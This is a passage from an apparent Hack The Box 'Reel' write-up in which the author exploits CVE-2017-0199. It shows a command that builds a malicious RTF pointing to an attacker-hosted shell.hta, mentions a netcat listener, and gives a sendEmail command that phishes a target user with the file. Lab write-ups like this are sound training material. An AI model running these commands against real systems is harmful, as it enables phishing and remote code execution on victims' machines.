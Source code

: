 Next we can use the GitHub exploit to generate a RTF file as mentioned in the readme.txt file:

```text
┌──(ryan㉿kali)-[~/HTB/Reel]
└─$ python2 cve-2017-0199_toolkit.py -M gen -t RTF -w click_me.rtf -u http://10.10.14.72/shell.hta -x 0
Generating normal RTF payload.

Generated click_me.rtf successfully
```

Now lets set up both a Python HTTP server as well as a NetCat listener, and attempt to send the malicious email with:

```text
sendEmail -t nico@megabank.com -f ryan@test.com -u "Hi!" -m "click me please" -a click_me.rtf -s 10.10.10.77
```

Nice, it worked!

![exploit.png](../assets/reel_assets/exploit.png)

From here we can grab the user.txt flag from Nico's desktop:

![user_flag1.png](../assets/reel_assets/user_flag1.png)
